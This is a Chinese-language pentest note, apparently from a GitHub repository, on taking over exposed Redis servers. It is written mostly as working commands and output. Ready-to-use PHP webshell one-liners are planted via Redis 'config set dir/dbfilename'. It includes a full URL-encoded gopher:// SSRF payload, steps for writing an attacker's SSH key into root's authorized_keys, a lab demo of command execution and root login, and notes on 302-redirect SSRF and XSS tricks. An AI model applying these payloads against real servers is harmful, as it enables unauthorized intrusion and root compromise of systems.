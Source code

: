 ### redis的RCE

三种方式：
- 写webshell（需要知道web绝对路径、web路径redis用户有权限写）
- 写入到crontab
- 将攻击者的公钥写入到authorized_key，使用攻击者的私钥ssh登录（需要开启ssh服务）


#### 说明
```
dir: 工作目录
dbfilename: 数据库的文件名
```

### redis写shell原理

设置dir工作目录，然后设置dbfilename，通过这两个步骤设置了数据库的绝对路径和文件名。后续写入的键值对就写入到这个可控的文件中（初衷是数据库文件），这里变成了攻击者的shell文件。

在redis-cli下查看这两个值：
```
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/lib/redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```
然后在系统上查看这个目录和文件的权限。redis用户对这个文件具有读写权限。这个目录也是只有redis这个用户才能访问。

```
root@ubuntu:/proc# ll /var/lib/redis
total 188
drwxr-x---  2 redis redis  4096 Jan 10 22:25 ./
drwxr-xr-x 73 root  root   4096 Nov  5 22:35 ../
-rw-rw----  1 redis redis 58587 Jan 10 22:25 dump.rdb
-rw-rw----  1 redis redis 58587 Dec  9 18:46 temp-33935.rdb
-rw-rw----  1 redis redis 58587 Dec 27 17:58 temp-67951.rdb
```


### redis启动的权限问题
如果想通过redis写入webshell，而redis是以redis用户启动，apache2是以www-data用户启动，则redis用户无法写入/var/www/目录的文件。在save步骤会出错。
```
127.0.0.1:6379> set 1 "<?php @eval($_POST['cqq']);?>    "
OK
127.0.0.1:6379> save
(error) ERR
```

### redis写webshell步骤
```
127.0.0.1:6379> config set dir /var/www
OK
127.0.0.1:6379> config set dbfilename redis_shell4.php
OK
127.0.0.1:6379> set 1111 "    <?php system($_REQUEST['cqq']);?>   "
OK
127.0.0.1:6379> save
```

利用SSRF漏洞使用gopher协议实现，利用这个工具：
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher


修改`redis.cmd`文件中的命令，
```
flushdb
config set dir /var/html
config set dbfilename rshell2.php
set 1 '<?php phpinfo();?>'
save
quit
```
然后执行：
```
$ python2 redis-over-gopher.py
gopher://127.0.0.1:6379/_%2a%31%0d%0a%24%37%0d%0a%66%6c%75%73%68%64%62%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%33%0d%0a%64%69%72%0d%0a%24%38%0d%0a%2f%76%61%72%2f%77%77%77%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%30%0d%0a%64%62%66%69%6c%65%6e%61%6d%65%0d%0a%24%31%30%0d%0a%72%73%68%65%6c%6c%2e%70%68%70%0d%0a%2a%33%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%0d%0a%31%0d%0a%24%31%38%0d%0a%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%3f%3e%0d%0a%2a%31%0d%0a%24%34%0d%0a%73%61%76%65%0d%0a%2a%31%0d%0a%24%34%0d%0a%71%75%69%74%0d%0a
```
得到gopher协议的payload。
然后需要对这个payload再进行一次urlencode：
```
gopher://127.0.0.1:6379/_%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%37%25%30%64%25%30%61%25%36%36%25%36%63%25%37%35%25%37%33%25%36%38%25%36%34%25%36%32%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%36%34%25%36%39%25%37%32%25%30%64%25%30%61%25%32%34%25%33%38%25%30%64%25%30%61%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30%25%30%64%25%30%61%25%32%61%25%33%33%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%30%64%25%30%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%31%25%33%38%25%30%64%25%30%61%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%37%30%25%36%38%25%37%30%25%36%39%25%36%65%25%36%36%25%36%66%25%32%38%25%32%39%25%33%62%25%33%66%25%33%65%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%31%25%37%35%25%36%39%25%37%34%25%30%64%25%30%61
```


#### Demo
```
$ curl -i http://192.168.85.129/redis_shell4.php?cqq=ifconfig --output -
HTTP/1.1 200 OK
Date: Mon, 11 Jan 2021 08:00:12 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2538
Content-Type: text/html; charset=UTF-8

REDIS0008	redis-ver4.0.9
redis-bits󿿀򳨭eused-memÐ
                      Ϻ
                       aof-preamble~򀕄(    br-3f4328a91e7c: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:91:42:81:60  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### 写入攻击者公钥实现rce
先生成公私钥对：
```
$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/77/.ssh/id_rsa): /home/77/.ssh/redis_id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/77/.ssh/redis_id_rsa.
Your public key has been saved in /home/77/.ssh/redis_id_rsa.pub.
The key fingerprint is:
SHA256:ostXG7ywBhLm9vwOeJYn56d6W8mEJBnzFyQXGYYXCN8 77@ubuntu130
The key's randomart image is:
+---[RSA 2048]----+
|    +..+O=       |
|     *o=o.       |
|    o +.E        |
|  o  o o         |
| o .  o.S        |
|  +..o.++.       |
| ..+B.o+++       |
|   +oB=.+        |
|    +B*+         |
+----[SHA256]-----+

$ ll /home/77/.ssh/
total 28K
drwx------  2 77 77 4.0K Jan 11 00:06 ./
-rw-------  1 77 77 1.8K Jan 11 00:06 redis_id_rsa
-rw-r--r--  1 77 77  394 Jan 11 00:06 redis_id_rsa.pub
```

然后将公钥写到authorized_key文件里，注意如果直接写入，或者前后加空格写入，是不能起效果的。需要将公钥写入到文件，然后在文件前后加上换行符。
```
# (echo -e "\n\n\n\n"; cat redis_id_rsa.pub; echo -e "\n\n\n\n") > test.pub
root@ubuntu:~/.ssh# cat test.pub |redis-cli -x set 344444
OK
```
再连接redis确认这个值是否写入了换行符：
```
$ redis-cli
127.0.0.1:6379> get 344444
"\n\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChQBXUegXtU6HK7F9MKuWDPgKNt8Y2h2FNtg14x5qeX9mRrlurytc4dNPvmpuuNZY0yDBi2QAK4Py7bfBbRWLvcFWALoRcXfPobQzRk3beWzWifVZm9iibahqOGgmfKN1DJ5/KTvEHgtGmWOLAjr2ddy5HUnwXSjb3KBgJqdsvt+eQFWHZLDSFem5oU1hni+a/5tVFhciif5AFCpq8e1F+4RrqIGtfOj4IrW3PrqCWJUI60IUgL4MjYqBIf7sctMgGO6Ezlg86Eo8bPdpUh3ygooB6FOJaWqEiB9Kd1gEUIgaj5C/5Dt3McwTzUliJ8DhZ7dw5kUt1mC9hd3oz+AzR 77@ubuntu130\n\n\n\n\n"
127.0.0.1:6379> save
OK
```
从攻击者机器向redis所在的ssh服务发起连接：
```
$ ssh root@192.168.85.129 -i ~/.ssh/redis_id_rsa
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
New release '20.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

You have new mail.
Last login: Mon Jan 11 00:04:44 2021 from 192.168.85.130
root@ubuntu:~#
```


### 通过计划任务实现RCE
//TODO


### 302跳转

- 绕过IP白名单限制，
- 跳转到`http://brutelogic.com.br/poc.svg`等，转换成反射型XSS。
- 限定协议时，跳转到攻击者控制的主机，然后location：其他协议。

### 参考
- [利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
- [redis 在渗透中 getshell 方法总结](https://zhuanlan.zhihu.com/p/36529010)
- [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)
- [ssrf与gopher与redis](https://www.cnblogs.com/sijidou/p/13681845.html)
